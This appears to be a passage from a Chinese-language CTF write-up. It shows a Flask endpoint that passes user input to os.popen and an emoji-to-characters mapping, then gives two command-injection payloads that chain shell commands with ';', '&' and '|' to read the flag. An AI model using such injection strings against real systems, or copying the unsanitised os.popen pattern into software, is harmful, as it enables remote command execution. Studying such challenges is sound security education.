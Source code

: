 ```python
    result = os.popen(command+" 2>&1").read()
    return jsonify({'command':command,'result':result})


if __name__ == '__main__':
    app.run('0.0.0.0',5000)

{
    "😐": ":|",
    "🤬": "#$%&!",
    "💿": "CD",
    "⭐": "*",
    "🐱": "cat",
    "😓": ";/",
    "🚩": "flag",
    }
```

- 方法1

- 因為分號截斷之後，&讓後面背景執行，!不影響執行

```
cd flag ;/:$#$%&! cat *
```

![](/images/2024/05/H1tjPUyEA.png)

```
cd flag ;/:$#$%&! python *
```

![](/images/2024/05/rJ4RPI1ER.png)

- 方法2


- 執行cd flag，然後執行 p: 再把輸出餵給 cat *

```
cd flag;p:| python *
```
![](/images/2024/05/HJX5u81NC.png)
